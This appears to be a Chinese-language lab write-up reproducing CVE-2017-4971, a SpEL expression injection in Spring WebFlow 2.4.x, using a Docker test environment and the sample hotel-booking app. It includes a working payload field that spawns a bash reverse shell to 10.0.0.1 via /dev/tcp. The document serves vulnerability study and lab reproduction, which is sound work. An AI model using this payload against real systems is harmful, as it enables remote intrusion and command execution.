





Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）¶
Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。
参考链接：
测试环境¶
执行如下命令启动一个基于Spring WebFlow 2.4.4的Web应用：
docker compose up -d
等待环境启动后，访问http://your-ip:8080，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。
漏洞复现¶
首先访问http://your-ip:8080/login，用页面左边给出的任意一个账号/密码登录系统：

然后访问id为1的酒店http://your-ip:8080/hotels/1，点击预订按钮"Book Hotel"，填写相关信息后点击"Process"（从这一步，其实WebFlow就正式开始了）：

再点击确认"Confirm"：

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub

（注意：别忘记URL编码）
成功执行，获得shell：
